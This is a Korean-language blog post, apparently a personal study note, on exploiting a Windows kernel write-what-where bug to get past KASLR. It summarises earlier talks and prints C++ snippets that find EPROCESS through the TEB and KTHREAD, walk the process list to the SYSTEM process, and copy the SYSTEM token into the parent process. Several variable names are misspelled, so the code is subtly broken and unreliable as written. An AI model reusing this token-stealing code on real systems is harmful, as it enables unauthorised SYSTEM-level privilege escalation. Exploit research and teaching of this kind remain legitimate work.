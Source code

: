 ```yaml
---
layout: post
title: Data-only-attacks are still alive
subtitle: AKA.write-what-where
tags: [Kernel, Window, Exploit, 1day]
---
```


# Introduction

해당 문서는 Write-What-where 취약점이 발생했을때 어떤식으로 익스를 할지에 대한 문서이다. Windows Kernel 에서 취약점이 발생하여 보통 임의의 영역에 값을 쓸 수 있는 취약점이 발생하는데, 이때 대부분의 경우 kernel address 를 알아야 덮을텐데 이때 KASLR 처럼 주소를 모를때 어떤 방법으로 bypass 를 하는지 해당 방법에 대해 소개하고자 한다. 

[Blackhat 2017 : WriteWhat-Where In Creators UPDATE](https://www.notion.so/b4sh5i/Blackhat-2017-WriteWhat-Where-In-Creators-UPDATE-3e3b7f71122844ee89f9f52d6ef2fe30)

해당 문서에서 다시 요약을 할거 같은데, 이 문서에 요약된 블로그이고 원문은 따로 정리해 볼 예정이다. 

필자는 KASLR 을 우회하는 방법에 Defcon 에서 이야기 했었다고 한다. TEB 의 Win32ThreadInfo 필드를 이용해 ntoskrnl.exe 에 대한 포인터를 릭한다고 하였다. 해당 포인터는 위의 ppt 에서 설명한 대로 임의의 커널 모드 에서 코드를 실행하는데 사용될 수 있다.

[Windows Kernel Shellcode on Windows 10 - Part 4 - There is No Code - Improsec | improving security](https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-4-there-is-no-code)

커널 공격을 하는 포스트(위의 링크) 를 확인 할 수 있었다. tagWND Object 를 사용해 현 Thread 인 EPROCESS 를 찾았다. 이 방법은 여전히 유효한다고 하지만 이 방법 이외의 방법을 알아보자.

# Finding EPROCESS

![https://images.squarespace-cdn.com/content/v1/5bbb4a7301232c6e6c8757fa/1544472946998-ZSZR2BJN58IXX6SXXVXS/ke17ZwdGBToddI8pDm48kPSLnaQKHFlqiPxd4FeDqcRZw-zPPgdn4jUwVcJE1ZvWQUxwkmyExglNqGp0IvTJZUJFbgE-7XRK3dMEBRBhUpxWyarcFPXI_cVMAY2dvw_4HXXmOYONRWWPgXHJ7udpmJv0Ebpy65FF_6SwxrNhrfs/1501283226466_1.png?format=750w](https://images.squarespace-cdn.com/content/v1/5bbb4a7301232c6e6c8757fa/1544472946998-ZSZR2BJN58IXX6SXXVXS/ke17ZwdGBToddI8pDm48kPSLnaQKHFlqiPxd4FeDqcRZw-zPPgdn4jUwVcJE1ZvWQUxwkmyExglNqGp0IvTJZUJFbgE-7XRK3dMEBRBhUpxWyarcFPXI_cVMAY2dvw_4HXXmOYONRWWPgXHJ7udpmJv0Ebpy65FF_6SwxrNhrfs/1501283226466_1.png?format=750w)

시작하기 앞서, TEB 의 Win32ThreadInfo 포인터를 +0x78 지점에서 찾을 수 있다. 이 포인터는 ThreadInfo 구조에 대한 것으로, 오프셋 0 에서 KTHREAD에 대한 포인터를 포함한다.

![https://images.squarespace-cdn.com/content/v1/5bbb4a7301232c6e6c8757fa/1544472960793-BQOSS0190CWHQQGTQYYC/ke17ZwdGBToddI8pDm48kJyx_kujjhQbRP4v1QsbPLjlfiSMXz2YNBs8ylwAJx2qrCLSIWAQvdC7iWmC9HNtRb3cFzz73fKZ98YzmPqZx9finLHaUVTeFpboRp1yHRt_iqxOD7wrysfuxfjX0c981g/d31f5-img.png?format=300w](https://images.squarespace-cdn.com/content/v1/5bbb4a7301232c6e6c8757fa/1544472960793-BQOSS0190CWHQQGTQYYC/ke17ZwdGBToddI8pDm48kJyx_kujjhQbRP4v1QsbPLjlfiSMXz2YNBs8ylwAJx2qrCLSIWAQvdC7iWmC9HNtRb3cFzz73fKZ98YzmPqZx9finLHaUVTeFpboRp1yHRt_iqxOD7wrysfuxfjX0c981g/d31f5-img.png?format=300w)

![https://images.squarespace-cdn.com/content/v1/5bbb4a7301232c6e6c8757fa/1544473012612-27YHO1O897U2GCI4C46B/ke17ZwdGBToddI8pDm48kCzz3gPu-V2BMjkx9MU2TktZw-zPPgdn4jUwVcJE1ZvWEtT5uBSRWt4vQZAgTJucoTqqXjS3CfNDSuuf31e0tVHe0PJaKRPAXp9voza5_jRXVx1KPDUVS9Xjr0KMCrJWdhur-lC0WofN0YB1wFg-ZW0/e5b05-img.png?format=500w](https://images.squarespace-cdn.com/content/v1/5bbb4a7301232c6e6c8757fa/1544473012612-27YHO1O897U2GCI4C46B/ke17ZwdGBToddI8pDm48kCzz3gPu-V2BMjkx9MU2TktZw-zPPgdn4jUwVcJE1ZvWEtT5uBSRWt4vQZAgTJucoTqqXjS3CfNDSuuf31e0tVHe0PJaKRPAXp9voza5_jRXVx1KPDUVS9Xjr0KMCrJWdhur-lC0WofN0YB1wFg-ZW0/e5b05-img.png?format=500w)

KTHREAD 의 오프셋 +0x220 에는 EPROCESS에 대한 포인터가 포함되어 있다. 또한 EPROCESS 에는 현재 프로세스의 토큰과 상위 프로세스의 프로세스 ID 및 연결된 EPROCSSES 목록에 대한 포인터가 포함되어 있다. 것이 부모 프로세스와 SYSTEM 프로세스의 토큰을 찾는 데 필요한 모든 것 이다.

# Using read/write primitives

이전의 ppt 처럼 크기를 덮어 쓰면 Bitmap 과 tagWND object 를 모두 읽기 및 쓰기 primitives 로 사용할 수 있다. 같은 방법으로 다른 primitives 또한 동일하게 사용이 가능하다. 다른 primitives 를 이용한 방법은 아래와 같다.

```cpp
dword64 teb = (dword64)NtCurrentTeb();
printf("TEB is at: 0x%llx\n", teb);
dword64 threadInfo = *(pdword64)(teb+0x78);
dword64 kthread = readQword(threadInfo);
printf("KTHREAD is at: 0x%llx\n", kthread);
dword64 eprocess = readQword(kthread+0x220);
printf("EPROCESS is at: 0x%llx\n", eprocess);
```

하지만 Creators 를 업데이트 시에 EPROCESS 의 오프셋 에 대한 변경된 내용을 작성해야 한다. 그 때문에 부모 프로세스의 EPROCESS 를 찾아야한다.

```cpp
dword ppid = readQword(eproce3ss + 0x3E0);
printf("Parent Process ID is: %d\n", ppid);
dword searchEprcoess = eprocess;
while(1){
	searchEprocess = readQword(searchEprocess + 0x2E8) - 0x2E8;
	if (readQword(serachEprocess + 0x2E0) == ppid) {
		break;
	}
}
dword parentEprocess = searchEprocess;
printf("Parent EPROCESS is at: 0x%llx\n", parentEprocess);
```

익스를 통해 system 권한으로 cmd.exe 를 할당해야하므로 상위 프로세스를 사용해야한다. 다음이로 system 프로세스의 EPROCESS 가 있다.

```cpp
searchEprocess = eprocess;
while(1){
	searchEprocess = readQword(searchEprocess + 0x2E8) - 0x2E8;
	if (readQword(serachEprocess + 0x2E0) == 4) {
		break;
	}
}
dword systemEprocess = searchEprocess;
printf("system EPROCESS is at: 0x%llx\n", systemEprocess);
```

마지막으로 SYSTEM 토큰의 상위 프로세스의 토큰을 마저 덮는다.

```cpp
dword64 systemToken = readQword(systemEproces + 0x358);
printf("SYSTEM Token is at: 0x%llx\n", systemToken);
writeQword(parentEprocess + 0x358, systemToken);
printf("Process token overwrite! \n");
```

코드를 실행하고 Write-What-Where 조건대로 익스를 하면 된다.
